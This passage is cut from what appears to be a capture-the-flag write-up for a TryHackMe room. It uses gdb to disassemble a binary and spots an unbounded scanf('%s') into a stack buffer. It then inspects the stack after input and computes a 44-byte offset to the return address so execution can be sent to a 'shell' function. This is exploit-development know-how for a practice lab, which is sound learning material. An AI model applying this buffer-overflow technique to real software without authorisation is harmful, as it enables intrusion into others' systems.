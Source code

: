 ```
   0x0804853c <+27>:	add    esp,0x4
   0x0804853f <+30>:	pop    ecx
   0x08048540 <+31>:	pop    ebp
   0x08048541 <+32>:	lea    esp,[ecx-0x4]
   0x08048544 <+35>:	ret    
End of assembler dump.
```
3. `disas get_input`
```
Dump of assembler code for function get_input:
   0x08048504 <+0>:	push   ebp
   0x08048505 <+1>:	mov    ebp,esp
   0x08048507 <+3>:	sub    esp,0x28
   0x0804850a <+6>:	sub    esp,0x8
   0x0804850d <+9>:	lea    eax,[ebp-0x28]
   0x08048510 <+12>:	push   eax
   0x08048511 <+13>:	push   0x80485ec
   0x08048516 <+18>:	call   0x80483b0 <__isoc99_scanf@plt>
   0x0804851b <+23>:	add    esp,0x10
   0x0804851e <+26>:	nop
   0x0804851f <+27>:	leave  
   0x08048520 <+28>:	ret    
End of assembler dump.
```
4. `b *get_input + 23` (we want to break after the input)
5. `r`
6. `AAAA`
7. `tele $esp-20 21` (play around with start and stop bounds until you see esp and ebp)
```
0xffffd1fc│+0x0000: 0x00000002
0xffffd200│+0x0004: 0xffffd220  →  "AAAA"
0xffffd204│+0x0008: 0xf7ffd980  →  0x00000000
0xffffd208│+0x000c: 0xf7e07105  →  <__isoc99_scanf+5> add eax, 0x18fefb
0xffffd20c│+0x0010: 0x0804851b  →  <get_input+23> add esp, 0x10
0xffffd210│+0x0014: 0x080485ec  →  0x00007325 ("%s"?)	 ← $esp
0xffffd214│+0x0018: 0xffffd220  →  "AAAA"
0xffffd218│+0x001c: 0x08048034  →   push es
0xffffd21c│+0x0020: 0xf7f98a28  →  0x00000000
0xffffd220│+0x0024: "AAAA"
0xffffd224│+0x0028: 0xf7fe4000  →   and al, 0x8
0xffffd228│+0x002c: 0x00000000
0xffffd22c│+0x0030: 0xf7de9c1e  →   add esp, 0x10
0xffffd230│+0x0034: 0xf7f973fc  →  0xf7f98a40  →  0x00000000
0xffffd234│+0x0038: 0xffffffff
0xffffd238│+0x003c: 0x00000000
0xffffd23c│+0x0040: 0x0804859b  →  <__libc_csu_init+75> add edi, 0x1
0xffffd240│+0x0044: 0x00000001
0xffffd244│+0x0048: 0xffffd314  →  0xffffd4a1  →  "/root/Desktop/CTFs/TryHackMe/TheCodCaper/root"
0xffffd248│+0x004c: 0xffffd258  →  0x00000000	 ← $ebp
0xffffd24c│+0x0050: 0x08048537  →  <main+22> mov eax, 0x0
```
	* The offset is `0x50 - 0x24`, which is `0x2c`, or `44`
8. The sourcecode tells us that theres a function called `shell`
